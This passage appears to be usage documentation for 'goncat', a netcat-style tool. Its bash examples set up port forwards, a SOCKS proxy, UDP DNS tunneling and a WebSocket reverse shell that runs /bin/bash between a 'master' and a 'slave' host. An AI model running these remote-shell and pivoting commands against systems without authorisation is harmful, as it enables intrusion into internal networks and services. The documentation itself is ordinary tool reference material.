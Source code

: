 **Expected**: Slave can access your local web server.

#### Multiple Port Forwards

```bash
# Master - forward multiple services
goncat master listen 'tcp://*:12345' --exec /bin/sh \
  -L 3306:database.internal:3306 \
  -L 6379:redis.internal:6379 \
  -R 8000:localhost:8000

# Slave
goncat slave connect tcp://192.168.1.100:12345
```

**Expected**: Master can access database and Redis on slave's network; slave can access master's service on port 8000.

### SOCKS Proxy Examples

#### Browse Through Slave's Network

```bash
# Master (creates SOCKS proxy on port 1080)
goncat master listen 'tcp://*:12345' --exec /bin/sh -D 1080

# Slave
goncat slave connect tcp://192.168.1.100:12345

# Configure browser or curl to use SOCKS proxy
curl --socks5 127.0.0.1:1080 http://internal.website
```

**Expected**: HTTP requests go through the slave's network connection.

#### SOCKS with UDP Support

```bash
# Master
goncat master listen 'tcp://*:12345' --exec /bin/sh -D 1080

# Slave
goncat slave connect tcp://192.168.1.100:12345

# Use SOCKS proxy for DNS resolution (UDP)
dig @127.0.0.1 -p 1080 internal.domain
```

**Expected**: UDP DNS queries are tunneled through the SOCKS proxy (UDP ASSOCIATE support).

### Advanced Examples

#### WebSocket Reverse Shell

```bash
# Master
goncat master listen 'ws://*:8080' --exec /bin/bash --pty

# Slave
goncat slave connect ws://192.168.1.100:8080
```
